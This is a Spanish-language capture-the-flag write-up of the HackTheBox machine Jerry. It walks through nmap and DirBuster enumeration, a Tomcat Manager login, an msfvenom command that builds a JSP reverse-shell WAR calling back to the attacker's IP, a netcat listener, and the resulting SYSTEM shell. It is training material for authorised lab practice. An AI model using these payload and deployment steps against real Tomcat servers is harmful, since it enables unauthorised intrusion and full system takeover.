JERRY
HackTheBox | Dificultad: Fácil
Introducción
JERRY es una máquina Windows de HackTheBox en la que el acceso inicial se consigue mediante la explotación de un servidor Apache Tomcat.
Comenzaremos realizando un reconocimiento de la máquina para identificar los servicios expuestos. Tras encontrar el puerto 8080, identificaremos una instalación de Apache Tomcat 7.0.88.
Durante la enumeración web descubriremos el Tomcat Manager, desde donde podremos desplegar archivos WAR. Aprovechando esta funcionalidad generaremos un payload mediante msfvenom y obtendremos una reverse shell.
Finalmente comprobaremos que el acceso obtenido se ejecuta directamente con privilegios de NT AUTHORITY\SYSTEM.
1. Reconocimiento
Antes de comenzar con la enumeración de puertos realizamos un ping contra el objetivo para comprobar si responde y obtener información sobre el sistema.
ping 10.129.136.9La respuesta obtenida nos permite observar que el TTL es compatible con un sistema Windows, por lo que continuamos con la enumeración.

2. Escaneo de puertos
Realizamos un escaneo completo de los puertos TCP para identificar todos los servicios expuestos.
nmap -sS --min-rate 5000 -vvv -n -Pn 10.129.136.9 -oG allportsEl escaneo revela un único puerto TCP abierto:
- 8080/tcp → HTTP

3. Enumeración del servicio
Una vez identificado el puerto 8080, realizamos una enumeración más específica utilizando detección de versiones y scripts de Nmap.
nmap -p8080 -sCV 10.129.136.9 -oN targetedEl resultado identifica el servicio como:
- Apache Tomcat
- Apache-Coyote/1.1
- Tomcat 7.0.88

4. Enumeración web
Accedemos al servicio web mediante el puerto 8080:
http://10.129.136.9:8080Nos encontramos ante una instalación de Apache Tomcat. Para ampliar la superficie de ataque realizamos una enumeración de directorios.
Utilizamos DirBuster para buscar recursos y directorios disponibles en la aplicación.

Entre los recursos encontrados aparecen rutas relacionadas con la administración de Tomcat, incluyendo el Manager.
5. Tomcat Manager
Accedemos al Tomcat Manager desde la ruta correspondiente.
La aplicación solicita autenticación para acceder al panel de administración.

Al interactuar con el login conseguimos acceder a la aplicación de administración.

6. Identificación de las credenciales
Durante la enumeración del servicio encontramos información relacionada con las credenciales utilizadas por Tomcat.
Al revisar la información disponible podemos identificar las credenciales necesarias para acceder al Manager.

Con estas credenciales conseguimos autenticarnos correctamente en el panel de administración.
7. Identificación del vector de ataque
Una vez dentro del Tomcat Manager podemos observar las aplicaciones desplegadas y diferentes opciones de administración.
Entre ellas encontramos la funcionalidad que nos permite realizar el Deploy de un archivo WAR.
Esta funcionalidad resulta especialmente interesante porque nos permite ejecutar una aplicación que controlemos dentro del servidor Tomcat.

8. Generación del payload
Para aprovechar la funcionalidad de despliegue generamos un archivo WAR que contiene un payload de reverse shell.
Utilizamos msfvenom para generar el archivo especificando la dirección IP de nuestra máquina y el puerto donde recibiremos la conexión.
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.102 LPORT=4444 -f war -o shell.warEl resultado es un archivo WAR que posteriormente podremos subir al Tomcat Manager.

9. Preparación del listener
Antes de desplegar el WAR necesitamos preparar nuestra máquina para recibir la conexión inversa.
Para ello ponemos un listener en el puerto 4444:
nc -lvnp 4444
10. Despliegue del WAR
Volvemos al Tomcat Manager y utilizamos la sección WAR file to deploy para subir el archivo generado anteriormente.
Una vez seleccionado el archivo WAR, realizamos el deploy de la aplicación.

11. Obtención de la shell
Una vez desplegada la aplicación, accedemos a la ruta correspondiente para ejecutar el payload.
Al ejecutarlo, el servidor establece una conexión inversa con nuestra máquina.

12. Obtención de SYSTEM
Una vez obtenida la shell comprobamos el usuario con el que se está ejecutando el proceso:
whoamiEl resultado es:
nt authority\systemHemos obtenido acceso directamente con los máximos privilegios del sistema.
13. Conclusión
JERRY comienza con una sencilla fase de reconocimiento en la que identificamos el puerto 8080 como único puerto TCP expuesto.
La enumeración del servicio nos permite identificar Apache Tomcat 7.0.88. Posteriormente descubrimos el Tomcat Manager y conseguimos acceder utilizando las credenciales disponibles.
Una vez dentro del Manager identificamos la funcionalidad de despliegue de archivos WAR, que utilizamos como vector de explotación.
Generamos un payload mediante msfvenom, preparamos un listener con Netcat y desplegamos el WAR mediante el Tomcat Manager.
Finalmente conseguimos una reverse shell sobre la máquina Windows y comprobamos que el proceso se está ejecutando como NT AUTHORITY\SYSTEM.
Por tanto, no es necesario realizar una fase adicional de escalada de privilegios.
JERRY completada.